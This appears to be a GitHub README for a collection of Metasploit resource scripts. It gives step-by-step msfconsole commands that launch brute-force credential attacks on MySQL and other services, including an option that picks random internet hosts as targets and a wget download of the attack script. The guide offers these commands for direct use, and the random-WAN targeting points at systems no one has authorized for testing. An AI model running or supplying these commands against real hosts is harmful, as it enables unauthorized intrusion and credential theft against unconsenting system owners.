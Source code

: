 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2iu59g7.png)
Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Many of the this brute force resource scripts are written to accept **user inputs** (setg global variables).<br />This means that users can run this kind of resource scripts in 3 diferent ways:

Execute resource script

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

**Adicionally to the described settings, we can also combine diferent configurations at runtime execution.**<br />

---

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º run brute_force.rc resource script to search hosts on WAN (**limmit the search to 300**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'


Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Instruct rc scripts to export **redteam** workspace database to a local file **/root/database_gfvte.xml** (optional)

      sudo msfconsole -q -x 'setg SAVE_DB true;resource /root/brute_force.rc'

This database.xml file can now be 'imported' to your default workspace with the follow command:

      sudo msfconsole -q -x 'db_import /root/database_gfvte.xml'

### Suspicious Shell Activity RedTeam @2019

<br />

